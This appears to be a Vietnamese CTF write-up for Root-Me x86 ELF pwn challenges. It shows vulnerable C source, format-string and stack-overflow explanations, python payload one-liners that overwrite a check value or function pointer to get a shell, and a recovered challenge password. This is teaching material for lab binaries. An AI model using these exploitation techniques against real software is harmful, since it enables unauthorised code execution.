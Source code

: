 # Root me (pwn)

## ELF x86 - Format string bug basic 1

```c
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```

Bài này là format string nên bug sẽ nằm ở hàm printf ta test thử nhập vào %p xem chương trình sẽ in ra tham số như thế nào

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Decode output từ hex ta sẽ được password

&#x20;

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

9apD()6dmapE

## ELF x86 - Format string bug basic 2

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```

## ELF x86 - Stack buffer overflow basic 1

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

Easy buffer overflow bug sẽ nằm ở  [fgets](http://www.opengroup.org/onlinepubs/009695399/functions/fgets.html)(buf,45,stdin); vì chương trình chỉ cho nhập 40 ký tự nhưng ở đây lại cho 45 nên ta sẽ ghi đè lên nó để đọc shell&#x20;

payload : (python -c  'print "A" \* 40  + "\xef\xbe\xad\xde"'; cat) | ./ch13

Dùng cat để giữ shell

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## ELF x86 Stack buffer overflow basic 2

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}\
```

```c
fgets(buf,133,stdin);
```

Biến buf chỉ có 128 giá trị nhưng hàm fgets lại cho nhập tới 133 nên sẽ xuất hiện lỗi buffer overflow ở đây . Lúc này ta sẽ tìm cách ghi đè sao cho có thể chạy được hàm shell() để có thể dùng bash shell

Để ghi lấy được hàm shell ta cần biết địa chỉ của nó&#x20;

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Ở đây địa chỉ của hàm shell sẽ là 0x8048516 chuyển thành little edian sẽ là \x16\x85\x04\x08

\=> payload : (python -c  'print "A" \* 128  + "\x16\x85\x04\x08"'; cat) | ./ch15

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## ELF x86 - Stack buffer overflow basic 3

```c
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
 
void shell(void);
 
int main()
{
 
  char buffer[64];
  int check;
  int i = 0;
  int count = 0;
 
  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}
 
void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```

```c
                case 0x08:
                  count--;
                  printf("\b");
                  break;
```

Ở đây không thể ghi đè từ trên xuống vì count đã chặn chỉ cho 65 ký tự r

Nên lúc này ta sẽ đẩy từ dưới lên vì count sẽ không check giá trị âm nên khi count bị âm thì nó sẽ bị overwrite mà ở đây để vào được shell thì check phải bằng 0xbfffabc =>  Ở đây là 4 bytes nên ta sẽ trừ count đi 4 lần&#x20;

\=> payload : (python -c  'print "\x08" \* 4 + "\xbc\xfa\xff\xbf"'; cat) | ./ch16

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

